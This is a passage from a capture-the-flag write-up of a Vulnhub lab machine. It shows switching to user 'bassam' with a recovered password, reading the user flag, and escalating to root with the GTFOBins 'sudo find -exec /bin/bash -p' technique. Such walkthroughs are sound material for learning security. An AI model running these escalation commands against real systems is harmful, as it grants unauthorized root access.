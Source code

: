 Ok, that's easy XD. Now we have a password for the user `bassam`. 
> **Note:** you can find the username by running `ls /home`

Let's change to the user `bassam`:

```bash
www-data@bassam-aziz:/var/www/html/supersecret-for-aziz$ su bassam
Password: 
bassam@bassam-aziz:/var/www/html/supersecret-for-aziz$ cd 
bassam@bassam-aziz:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  user.txt  Videos
bassam@bassam-aziz:~$ cat user.txt
THM{Bassam-Is-Better_Than-KIRA}
bassam@bassam-aziz:~$ 
```

Perfect!! We are now user `bassam`. 
This is only a curiosity, the flag seems from `THM`. I didn't know that there was machines of that platform on `Vulnhub`.

## Privilege escalation

- - -

This step is the **easyest** one. 

First run `sudo -l` to see what commands we can run as root:

```bash
bassam@bassam-aziz:~$ sudo -l
[sudo] password for bassam: 
Matching Defaults entries for bassam on bassam-aziz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bassam may run the following commands on bassam-aziz:
    (ALL : ALL) /usr/bin/find
bassam@bassam-aziz:~$ 
```

Ok, so we can run as `ALL` users the command `find`. The only thing we need to do is to search `find` in [GTFOBINS](https://gtfobins.github.io/gtfobins/find/).
This will give us the way to privilege escalate:

```bash
bassam@bassam-aziz:~$ sudo find . -exec /bin/bash -p \; -quit
root@bassam-aziz:~# 
```

Great!! Rooted machine. 

## Conclusions

- - -

For me this machine was, meh. The intrusion is not very original, the user neither, and the privilege escalation was **very** easy. 
This machine is very nice if you are starting, you can learn about some `php` or `GTFOBINS`.

As always, it's me, Ruycr4ft, take care!!